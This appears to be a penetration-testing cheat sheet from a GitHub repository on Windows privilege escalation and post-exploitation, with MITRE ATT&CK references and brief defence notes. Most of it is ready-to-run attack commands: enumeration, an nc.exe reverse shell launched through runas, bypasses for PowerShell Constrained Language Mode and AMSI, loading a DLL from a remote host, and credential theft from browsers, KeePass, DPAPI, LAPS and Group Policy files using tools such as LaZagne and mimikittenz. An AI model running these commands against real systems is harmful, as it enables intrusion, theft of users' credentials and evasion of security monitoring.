




## Without Access

### From NMAP Serives

From application version, you can guess which version of Windows the system is running

- IIS Version: <https://en.wikipedia.org/wiki/Internet_Information_Services#History>

## With Access (Bash/)

### Non-Interactive Shell

Within non-interactive shell, we cannot execute *multistaged* commands which requires interactions.

One method is to use "echo" like the following

```bash
cmd.exe /C echo Y | c:\windows\system32\cacls.exe c:\windows\system32\sethc.exe /E /G BUILTIN\Administrators:F
```

### Initial Information Gathering

#### Automated Enumeration tool

[SharpUp](https://github.com/GhostPack/SharpUp) is a C# port of various PowerUp functionality.
[Seabelt](https://github.com/GhostPack/Seatbelt) is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

```bash
Seatbelt.exe AutoRuns CloudCredentials CredEnum EnvironmentPath NetworkProfiles NetworkShares ProcessCreationEvents PuttyHostKeys PuttySessions RDPSavedConnections RDPSessions SuperPutty TokenPrivileges WindowsVault
```

#### System information

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" # Displays O.S. Name and Version
hostname # Displays the hostname
driverquery # List of installed device drivers and their properties
wmic ntdomain get /all /format:List
wmic netclient get /all /format:List
nltest /trusted_domains
wmic pagefile
# Environment variable
set # On cmd
dir env: # On P$
Get-ChildItem Env: | ft Key,Value # On P$
wmic logicaldisk get caption | fsutil fsinfo drives # List drives
wmic logicaldisk get caption,description,providername # List drives
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root # List drives
```

You can try to see if [wesng](https://github.com/bitsadmin/wesng) say something interesting.
Wesng is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities.

```bash
wes.py systeminfo.txt -p KB4487044 KB4477029 KB4480979
```

For more information about that technique refer to [T1082 - System Information Discovery](https://attack.mitre.org/techniques/T1082/)

#### Users information

```bash
net users # Enumerate the different users on the system
net user *user* # Display information about the given user
wmic useraccount get name,sid,fullname # Displays users using WMI
quser # Identify active user sessions on a computer.
wmic netlogin list /format:List # Display logon information
Get-WmiObject Win32_LoggedOnUser # Display logon users
Get-LocalUser | ft Name, Enabled, LastLogon
Get-ChildItem C:\Users -Force | select Name
klist sessions # Displays a list of logon sessions on this computer.
Get-WinEvent -FilterHashtable @{ LogName='Security'; Id='4624' } # Successful logons
Get-WinEvent -FilterHashtable @{ LogName='Security'; Id='4648' } # Logons with explicit credentials
Get-WinEvent -FilterHashtable @{ LogName='security'; Id='4634' } # Account logoffs
```

1) Check for recently run commands and recent documents

```bash
req query HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
req query HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU

dir "C:\Users\USR\AppData\Local\Microsoft\Windows\FileHistory\Data"
```

2) Check if any user has the **passwordreq** flag set to **no**.

*[/passwordreq](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc771865(v=ws.11)?redirectedfrom=MSDN)* specifies whether a user account must have a password.

```bash
net user USER | findstr "required"
```

If it set to **no**, you could try to use the **/savecred** parameter of the **runas**.

This could be very interesting where it could be done an an account with administrator rights.

```bash
runas /user:Administrator /savecred "nc.exe -c cmd.exe IP PORT"
```

3) Check for the differents "User Shell Folders" configured

```bash
reg query "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders"
```

:white_check_mark: How to protect against or detect that technique:

- *Achitecture*: Prevent administrator accounts from being enumerated when an application is elevating through UAC since it can lead to the disclosure of account names.

For more information about that technique refer to [T1087.001 - Account Discovery: Local Account](https://attack.mitre.org/techniques/T1087/001/)

#### Weak folder permissions

When new folders are created in the root it is writeable for all authenticated users by default. The “NT AUTHORITY\Authenticated Users:(I)(M)” gets added to the folder where M stands for modify access.

&rarr; If binaries load with SYSTEM privileges from this folder it might just be a matter of replacing the binary with your own one.

#### Command History

```bash
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
```

##### PowerShell Transcription

This setting lets you capture the input and output of Windows PowerShell commands into text-based transcripts

If it is enable, there should be a registry key named "OutputDirectory".

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription
reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription
reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription
```

##### PowerShell Module Logging

Module logging records pipeline execution details as PowerShell executes, including variable initialization and command invocations. Module logging will record **portions of scripts, some de-obfuscated code**, and some data formatted for output.

Module logging events are written to Event ID (EID) 4103.

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
```

##### PowerShell  Script Block Logging

Script block logging records blocks of code as they are executed by the PowerShell engine, thereby capturing the full contents of code executed by an attacker, including scripts and commands.
Due to the nature of script block logging, **it also records de-obfuscated code as it is executed**.

Script block logging events are written to Event ID (EID) 4104.

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
```

For more information about that technique refer to [T1552 - Unsecured Credentials](https://attack.mitre.org/techniques/T1552/)

#### Network Enumeration

```bash
arp -A # Displays the ARP (Address Resolution Protocol) cache table for all available interfaces.
netstat -ano
netsh firewall show state # Displays the Windows Firewall status
netsh firewall show config # Displays the Windows Firewall Configuration
route print # Displays the entries in the local IP routing table.
ipconfig /all # Displays the full TCP/IP configuration for all ntwork adapters.
ipconfig /displaydns # Displays the local DNS cache
nbtstat -n # Lists local NetBIOS names
nbtstat -s # Lists sessions table, converting destination IP addresses to their NETBIOS names.
net config workstation
netsh wlan show all # List all profile(s)
netsh wlan show profile # List WLAN profile(s)
netsh wlan show profile WIFI_PROFILE key=clear # Get the Wi-Fi from a given profile
getmac # Display the MAC Addresses
```

For more information about that technique refer to [T1016 - System Network Configuration Discovery](https://attack.mitre.org/techniques/T1016/)

#### Defense Enumeration

```bash
Get-MpPreference # Gets preferences for the Windows Defender scans and updates.
Get-AppLockerPolicyInfo # Gets the local, the effective, or a domain AppLocker policy.
# Check if there are "JobInactivityTimeout" and "MaxDownloadTime" value set
reg query "HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\BITS"
# Check if LAPS is deployed
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
# Check if LSA Protection is deployed
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA" /v RunAsPPL
# Check if Credential Guard is enabled
reg query "HKLM\System\CurrentControlSet\Control\LSA" /v LsaCfgFlags
```

##### Windows Defender Evasion

If you are Administrator of one system, and it is using Windows Defender, check for the following entries

- **ExclusionExtension**: Specifies an array of file name extensions, such as obj or lib, to exclude from scheduled, custom, and real-time scanning.
- **ExclusionPath**: File paths to exclude from scheduled and real-time scanning.
- **ExclusionProcess**: Excludes any files opened by the processes that you specify from scheduled and real-time scanning.

For more information about that technique refer to [T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/)

##### LAPS Evasion

In some organizations, there are *Organization Unit* where administrators or members of the helpdesks have full control access of a computer.
This means that they we have one of those accounts, we can query the Domain Controller for such passwords as LAPS stores it’s information in Active Directory:

- The expiration time: ms-Mcs-AdmPwdExpirationTime
- And the actual password in clear text: ms-Mcs-AdmPwd

```bash
ldapsearch -x -h 192.168.80.10 -D "USERNAME" -w PASSWORD -b "dc=BASELDAP,dc=info" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

##### Sysmon


```bash
Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }
Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
Get-Service | where-object {$_.DisplayName -like "*sysm*"}
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
ls HKCU:\Software\Sysinternals
sysmon -c
findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*
(Get-SysmonConfiguration).Rules
```

##### Powershell Transcript

The Start-Transcript and Stop-transcript cmdlets let you record all of your activities in the PowerShell console to a text file.

```bash
Stop-Transcript # Stop recording
```

##### Powershell Restriction

##### PowerShell Constrained Language Mode

PowerShell Constrained Language is a language mode of PowerShell designed to support day-to-day administrative tasks, yet restrict access to sensitive language elements that can be used to invoke arbitrary Windows APIs.

The default mode is *FullLanguage* which allows any commands.

```powershell
$ExecutionContext.SessionState.LanguageMode
FullLanguage
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

PowerShell Constrained Language mode was designed to work with system-wide application control solutions such as Device Guard User Mode Code Integrity (UMCI).

If we have the ability to downgrade to Powershell 2.0, this can allow you to bypass the *ConstrainedLanguagemode*

```powershell
powershell -version 2
# Check Language Mode
$ExecutionContext.SessionState.LanguageMode
# Remove Constrained Language Mode
Remove-Item Env:\__PSLockdownPolicy
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure that you have an endpoint protection system that integrate with Powershell security mechanisms such as AMSI or Constrained Language Mode
For instance, The Application Whitelisting tools from Windows can be integrated with Constrained Language Mode so that before a powershell script is run, the script host invokes AppLocker to verify the script (cc [here](https://p0w3rsh3ll.wordpress.com/2019/03/07/applocker-and-powershell-how-do-they-tightly-work-together/))
- *Active Defense*: Monitor for PowerShell downgrade.

##### Tool: PowerShdll

[PowerShdll](https://github.com/p3nt4/PowerShdll) run PowerShell with DLLs only.

PowerShdll can be run with: rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe or as a standalone executable.

```bash
rundll32 PowerShdll,main <script> 
rundll32 PowerShdll,main -h         # Display this message
rundll32 PowerShdll,main -f <path>  # Run the script passed as argument
rundll32 PowerShdll,main -w         # Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i         # Start an interactive console in this console
# If you do not have an interractive console, use -n to avoid crashes on output
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor the execution and arguments of rundll32.exe (with an emphasis on comparing recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity).

For more information about that technique refer to [T1218.011 - Signed Binary Proxy Execution: Rundll32](https://attack.mitre.org/techniques/T1218/011/)

#### Remote Desktop Session

Remote Desktop Services (RDS), known as **Terminal Services** in Windows Server 2008 and earlier, is one of the components of Microsoft Windows that allow a user to take control of a remote computer or virtual machine over a network connection.

```bash
qwinsta # Displays information about sessions on a Remote Desktop Session Host server.
```

Here below are the registry keys that control the settings of the Remote Desktop Protocol:

- **fDenyTSConnections**: Allows or denies connecting to Terminal Services.
- **fSingleSessionPerUser**: Each user can be limited to one session to save server resources or facilitate session recovery.
- **TSEnabled**: Indicates whether basic Terminal Services functions are enabled
- **TSUserEnabled** Indicates whether users can log on to the terminal server

```bash
# Allow the service within the Windows Firewall
netsh firewall set service type = remotedesktop mode = enable

# Enable Remote Desktop Protocol
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# Allow multiple sessions per user
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Start the service (Depends on the O.S. version)
net start termservice
net start "Terminal Services"
svchost.exe -k termsvcs
```

You may want to tunnel RDP through another port like 443

```bash
REG ADD "HKLt1\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f 
```

##### Saved RDP Connections

Information about all RDP connections is stored in the registry of each user.
It’s impossible to remove a computer (or computers) from the list of RDP connection history using built-in Windows tools.

```bash
reg query "HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\\"
reg query HKCU\Software\Microsoft\Terminal Server Client\Servers\
```

For more information about that technique refer to [T1021.001 - Remote Services: Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)

#### Credentials

##### Interesting File Type

```bash
Get-ChildItem -Path C:\ -Filter *.bat -Recurse -ErrorAction SilentlyContinue -Force # Search for bat file
```

##### Interesting Files Enumeration

[dir](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir) displays a list of a directory's files and subdirectories.

Commands options:

- **/s**: Lists every occurrence of the specified file name within the specified directory and all subdirectories.

```bash
# Lists all files in the current directory with extensions that begin with .txt
dir *.txt
```

[where](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/where) displays the location of files that match the given search pattern.

Commands options:

- **/r DIR**: Indicates a recursive search, starting with the specified directory.

```bash
# Searches recursively within C:\ for sysprep files
where /r c:\ sysprep.*
```

[findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) searches for patterns of text in files.

Commands options:

- **/s**: Include subdirectories

```bash
c:\sysprep.inf # Could be clear-text credentials
c:\sysprep\sysprep.xml # Could be Base64 encoded credentials.
c:\Unattend.xml # Could be Base64 encoded credentials.
%WINDIR%\Panther\Unattend\Unattend.xml # Could be Base64 encoded credentials.
%WINDIR%\Panther\Unattend.xml # Could be Base64 encoded credentials.
tomcat-users.xml   # Default user database for container-managed authentication in Tomcat.
web.config         # Microsoft IIS Administration API information are contained in this file 
config.inc.php     # phpMyAdmin 
config.xml         # Config file of multiple applications (Jenkins, Apache Cordova, ...)
Credentials.xml    # Credentials file of multiple applications (Jenkins, ...)
dir profile.ps1 /s # May be executed by an adminitrator or can be used to persist
dir /s pass == cred == vnc == .config
findstr /si password *.xml *.ini *.txt *.bat .xls # Search for password in xml, ini, xml, xls and bat files files (Bash)
cmd.exe /c findstr /si password *.xml *.ini *.txt *.bat # Search for password in xml, ini, xml and bat files (Powershell)
reg query HKLM /f password /t REG_SZ /s # Search for password in registry keys in HKLM
reg query HKCU /f password /t REG_SZ /s # Search for password in registry keys in HKCU
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologing
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP Parameters
dir "C:\Users\USER\AppData\Local\Microsoft\Windows\INetCookies"
dir "C:\Users\USER\AppData\Roaming\Microsoft\Windows\Cookies"
dir "C:\Users\USER\AppData\Roaming\Microsoft\Windows\Cookies\Low"
tree /F /A c:\ tree.txt # Directory listing of C:
Get-Childitem -Path C:\ -Force -Filter -Recurse *.log -ErrorAction SilentlyContinue | Where {$_.LastWriteTime -gt "2012-08-20"}
```

We may also check in Third Party Software

```bash
%AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml # McAfee Endpoint Protection
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password # RealVNC
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty
```

If you can stage a .exe, you can use [Lazagne](https://github.com/AlessandroZ/LaZagne), which is even used by known APTs such as OilRig
The LaZagne project is an open source application used to retrieve lots of passwords stored on a local computer.

LaZagne can retreive password from the following software *groups*:

- Browsers: Firefox, Google Chrome, Opera, ...
- Mails: Outlook, Thunderbird, ...
- Chats: Pidgin, Psi and Skype
- Sysadmin: Apache Directory, FileZilla, OpenSSH, KeePass, WinSCP, ...
- Databases: DBVisualizer, Postgresql, Robomongo, Squirrel & SQLdevelopper, ...

&rarr; Would use it if it's seems to be a Dev/DBA/SysAdmin system or database server

- Games: GalconFusion, Kalypsomedia, RogueTale, Turba

&rarr; Would be surprising to find that on professional environment

- Git: Git for Windows

&rarr; Would use if the PC is a server or used by a member of the I.T. / Dev teams

- ...

```bash
# I would personaly not launch an "all" as it may be too intrusive
laZagne.exe all -oJ # Search for password within Browsers, Chats, Databases, Sysadmin tools, Git ...
laZagne.exe browsers -oJ # Search for password within Browsers
```

Another tool like Lazagne, but this time in Powershell is [mimikittenz](https://github.com/orlyjamie/mimikittenz)

mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns including but not limited to:

- TRACK2 (CreditCard) data from merchant/POS processes
- PII data
- Encryption Keys & All the other goodstuff

```bash
Invoke-mimikittenz.ps1
```

For saved session information from PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP there is SessionGopher

[SessionGopher](https://github.com/Arvanaghi/SessionGopher) is a PowerShell tool that finds and decrypts saved session information for remote access tools.

SessionGopher works by querying the HKEY_USERS hive for all users who have logged onto a domain-joined box at some point.

Command options:

- **-Thorough**: Search all drives for PuTTY private key (.ppk), Remote Desktop Connecton (.rdp), and RSA (.sdtid) files.
- **-o**: Outputs the data to a folder of .csv files
- **-iL**: Provide a file with a list of hosts to run SessionGopher against, each host separated by a newline.
- **-AllDomain**: Query Active Directory for all domain-joined systems and run against all of them.
- **-Target**: Specify a specific host you want to target.

```bash
# Run localy
Invoke-SessionGopher -Thorough
# Run remotly
Invoke-SessionGopher -AllDomain -u domain.com\USER -p PASSWORD
```

###### Google Chrome

The Chrome default profile folder default locations are:

- WinXP: \[userdir]\Local Settings\Application Data\Google\Chrome\User Data\Default
- Vista/7/8/10: \[userdir]\AppData\Local\Google\Chrome\User Data\Default
- Linux: \[userdir]/.config/google-chrome/Default
- OS X: \[userdir]/Library/Application Support/Google/Chrome/Default
- iOS: \Applications\com.google.chrome.ios\Library\Application Support\Google\Chrome\Default
- Android: /userdata/data/com.android.chrome/app_chrome/Default
- CrOS: \home\user\<GUID>

[BrowserGather](https://github.com/sekirkity/BrowserGather) include various cmdlets for extracting credential, history, and cookie/session data from Google Chrome

```bash
# First import the module
Import-Module .\BrowserGather.ps1

Get-ChromeCreds "C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\<PROFILE>\Login Data"
Get-ChromeCookies "C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\<PROFILE>\Cookies"
```

[Hindsight](https://github.com/obsidianforensics/hindsight) is a free tool for analyzing web artifacts for Google Chrome/Chromium.

```bash
hindsight_gui.py
# Browse on http://localhost:8080
```

##### Data Protection API

Used by Windows to perform symmetric encryption of asymmetric private keys, using a user or system secret as a significant contribution of entropy.

DPAPI allows developers to encrypt keys using a symmetric key derived from the **user's logon secrets**

1) Master key

The DPAPI keys used for encrypting the user's RSA keys are stored under *%APPDATA%\Microsoft\Protect\{SID}* directory, where *{SID}* is the Security Identifier of that user.

```bash
dir C:\Users\USER\AppData\Roaming\Microsoft\Protect\
dir C:\Users\USER\AppData\Local\Microsoft\Protect\
```

We can also use mimikatz *dpapi::masterkey* with either */pvk* or */rpc*

2) Credentials files

```bash
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

We can also use mimikatz *dpapi::cred* with the appropriate */masterkey*

###### PSCredential

The PSCredential is a placeholder for a set of credentials which basically contains a username and a password.
It is used as argument to a cmdlet

It uses the DPAPI which can encrypt and decrypt information (such as a password) by using key material from both the **user** and **system** account.
This means, effectively, the encrypted information is only accessible if the same user logs in to the same machine:

- If another user logs in to the same machine the encrypted password file can’t be decrypted
- If the same user copies the encrypted password file to another machine it can’t be decrypted

Here below is how to decrypt them

```powershell
$credential = Import-CliXmL -Path file.txt
$credential.GetNetworkCredential().Password
```

##### Remote Desktop Credential Manager

```bash
dir %localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```

We can also use mimikatz *dpapi::rdg* with the appropriate */masterkey*

##### Memory Files

- **hiberfil.sys**: RAM stored during machine hibernation
- **%SystemDrive%\pagefile.sys**: Virtual memory used by Windows
- **%SystemDrive%\swapfile.sys**: Virtual memory used by Windows Store Apps

For more information about those techniques refer to:

- [T1552.001 - Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [T1552.002 - Unsecured Credentials: Credentials in Registry](https://attack.mitre.org/techniques/T1552/002/)
- [T1546.013 - Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)

###### *If you don't know, now you know : [Windows Setup Automation](https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/windows-setup-installation-process)*

Windows Setup is the program that installs Windows or upgrades an existing Windows installation. It is also the basis for the following installation and upgrade methods:

- Interactive Setup
- Automated installation
- Windows Deployment Services

What interest us is the *Automated installation*.

When you use *Automated installation*, you can either use:

- Setupconfig.ini to install Windows
- An *answer file* while installing Windows


Because answer files are cached to the computer during Windows Setup, **your answer files will persist on the computer between reboots**.

Before you deliver the computer to a customer, you must delete the cached answer file in the **%WINDIR%\panther** directory. There might be potential security issues if you include domain passwords, product keys, or other sensitive data in your answer file.

#### Windows Remote Management

WinRM is Microsoft's implementation of WS-Management in Windows which allows systems to access or exchange management information across a common network.

If you find a user, try also to use WinRM

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate.

[psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) remote shell/that lets you execute processes on remote windows systems.

Usage:

- **--scripts**: Powershell scripts local path
- **--executables**: C# executables local path
- **--hash**: NTHash

```bash
evil-winrm -i IP -u USERNAME -p PASSWORD --scripts PS_SCRIPTS_PATH --executables EXES_PATH
\*Evil-WinRM\* PS >upload /root/files/                       # Upload a file (Relative paths are not allowed to use on download/upload.)
\*Evil-WinRM\* PS >download file                             # Download file (Relative paths are not allowed to use on download/upload.)
\*Evil-WinRM\* PS >services                                  # List all services showing if there your account has permissions over each one.
\*Evil-WinRM\* PS >PowerView.ps1                             # Executes PowerView.ps1
\*Evil-WinRM\* PS >menu                                      # Displays loaded functions from the PowerShell script executed

# Advanced commands
\*Evil-WinRM\* PS >Invoke-Binary /opt/file.exe               # Allows exes compiled from c# to be executed in memory.
\*Evil-WinRM\* PS >Dll-Loader -http -path http://IP/File.dll # Allows loading dll libraries in memory
\*Evil-WinRM\* PS >Bypass-4MSI                               # Patchs AMSI protection
```

```bash
python psexec.py USERNAME@PASSWORD
```

```bash
cme winrm IP -u USERNAME -p PASSWORD
```

For more information about that technique refer to [T1021.006 - Remote Services: Windows Remote Management](https://attack.mitre.org/techniques/T1021/006/)

#### Process Enumeration

```bash
tasklist # Batch: Display processes currently running.
Get-Process # PowerShell: Display processes currently running.
```

For more information about that technique refer to [T1057 - Process Discovery](https://attack.mitre.org/techniques/T1057/)

#### Password Manager

##### KeePass

```bash
# Detects from where keepass is running
Get-WmiObject win32_process | Where-Object {$_.Name -like '*kee*'} | Select-Object -Expand ExecutablePath
# Searchs where is the binary and the database(s)
Get-ChildItem -Path C:\Users\ -Include @("*kee*.exe", "*.kdb*") -Recurse -ErrorAction SilentlyContinue | Select-Object -Expand FullName | fl
# (Possible) Retreive the KeePass.config.xml
Get-ChildItem -Path C:\Users\ -Include @("KeePass.config.xml") -Recurse -ErrorAction SilentlyContinue | Select-Object -Expand FullName | fl
```

If the version is 2.28, 2.29, or 2.30, we can use [KeeFarce](https://github.com/denandz/KeeFarce) which allows for the extraction of KeePass 2.x password database information from memory.

More in-depth information can be found here: <http://www.harmj0y.net/blog/redteaming/a-case-study-in-attacking-keepass/>

For more information about that technique refer to [T1555 - Credentials from Password Stores](https://attack.mitre.org/techniques/T1555/)

#### Web Browsers

Web browsers commonly save credentials such as website usernames and passwords so that they do not need to be entered manually in the future.

For more information about that technique refer to [T1555.003 - Credentials from Password Stores: Credentials from Web Browsers](https://attack.mitre.org/techniques/T1555/003/)

##### Multiple

[SharpWeb](https://github.com/djhohnstein/SharpWeb) .NET 2.0 CLR compliant project that can retrieve saved logins from Google Chrome, Firefox, Internet Explorer and Microsoft Edge.

```bash
.\SharpWeb.exe all
```

##### Firefox

You could find some interersting files by reading the Firefox memory

```bash
procdump64.exe -accepteula -ma PID
cmd /c "strings64.exe -accepteula firefox.exe.dmp > firefox.exe.txt"
```

[Firefox Decrypt](https://github.com/Unode/firefox_decrypt) is a tool to extract passwords from profiles of Mozilla (Fire/Water)fox™, Thunderbird®, SeaMonkey® and some derivates.

It can be used to recover passwords from a profile protected by a Master Password as long as the latter is known. If a profile is not protected by a Master Password, a password will still be requested but can be left blank.

This tool does not try to crack or brute-force the Master Password in any way. If the Master Password is not known it will simply fail to recover any data.

> %LocalAppData%\Mozilla\Firefox\Profiles\randomString.Default\logins.json

```bash
firefox_decrypt.py file.ini --list
```

##### Google Chrome

Chrome utilizes a Windows function called **CryptProtectData** to encrypt passwords stored on computers with a randomly generated key. Only a user with the same login credential as the user who encrypted the data can later decrypt the passwords. Every password is encrypted with a different random key and stored in a small database on the computer. The database can be found in the below directory.

> %LocalAppData%\Google\Chrome\User Data\Default\Login Data

For more information about that technique refer to [T1555.003 - Credentials from Password Stores: Credentials from Web Browsers](https://attack.mitre.org/techniques/T1555/003/)

#### Group Policy Preference Exploitation

*Please note that this has been partially fixed within MS14-025*

<https://adsecurity.org/?p=2288>

**SYSVOL** is the domain-wide share in Active Directory to which all authenticated users have read access.
SYSVOL contains logon scripts, group policy data, and other domain-wide data which needs to be available anywhere there is a Domain Controller (since SYSVOL is automatically synchronized and shared among all Domain Controllers).

Groups.xml file which is stored in SYSVOL
The password in the xml file is *obscured* from the casual user by encrypting it with AES, I say obscured because the static key is published on the msdn website allowing for easy decryption of the stored value.

```bash
Get-ChildItem -Path $AllUsers -Recurse -Include 'Groups.xml','Services.xml','Scheduledtasks.xml','DataSources.xml','Printers.xml','Drives.xml' -Force -ErrorAction SilentlyContinue
$DomainXMLFiles = Get-ChildItem -Force -Path "\\$Domain\SYSVOL\*\Policies" -Recurse -ErrorAction SilentlyContinue -Include @('Groups.xml','Services.xml','Scheduledtasks.xml','DataSources.xml','Printers.xml','Drives.xml')
```

Source: <https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1>

In addition to Groups.xml several other policy preference files can have the optional "cPassword" attribute set:

- Services\Services.xml: Element-Specific Attributes
- ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
- Printers\Printers.xml: SharedPrinter Element
- Drives\Drives.xml: Element-Specific Attributes
- DataSources\DataSources.xml: Element-Specific Attributes

We can use [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) which is part of PowerSploit in order to do the job for us

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure all domain controllers are running on current operating system versions with the latest patches, as current versions of Windows Server do not permit the embedding of passwords in Group Policy Preferences (Patch KB2962486)
- *Architecture*: Implement Microsoft’s Local Administrator Password Solution (LAPS).
- *Active Defense*: Monitor for attempts to access SYSVOL that involve searching for XML files.

